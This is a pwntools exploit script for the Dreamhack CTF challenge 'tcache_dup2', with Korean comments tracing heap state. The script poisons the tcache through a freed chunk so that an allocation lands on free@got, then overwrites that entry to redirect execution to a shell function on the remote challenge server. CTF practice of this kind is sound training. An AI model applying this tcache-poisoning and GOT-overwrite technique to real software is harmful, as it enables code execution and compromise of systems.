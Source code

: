 ```
from pwn import *

p = remote('host3.dreamhack.games', 14896)
elf = ELF('./tcache_dup2')


def create(size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def modify(idx, size, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'idx: ', str(idx).encode())
    p.sendlineafter(b'Size: ', str(size).encode())
    p.sendafter(b'Data: ', data)


def delete(idx):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'idx: ', str(idx).encode())


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[0]
create(0x20, b'a')
# tcache[0x20] : empty
# chunk : ptr[1]
create(0x20, b'b')


# tcache[0x20] : ptr[0]
# tc_idx = 1
# chunk : ptr[1]
delete(0)
# tcache[0x20] : ptr[1] -> ptr[0]
# tc_idx = 2
# chunk : ptr[1]
delete(1)


# tcache[0x20] : ptr[1] -> free@got
# tc_idx = 2
# chunk : ptr[1]
free_got = elf.got['free']
modify(1, 0x10, p64(free_got))


# tcache[0x20] : free@got
# tc_idx = 1
# chunk : ptr[2]
create(0x20, b'a')


# tcache[0x20] : empty
# tc_idx = 0
# chunk : ptr[3]
get_shell = elf.symbols['get_shell']
create(0x20, p64(get_shell))
# tcache에서 청크를 찾아서 할당할 때 해당 청크에 `e->key = NULL;`을 해서 `청크 + 0x8`을 `0x00`으로 초기화하기 때문에,
# 여기서 free@got를 할당할 때, [free@got + 0x8]에 위치하는 puts@got의 값이 NULL(0x00)으로 바뀜
```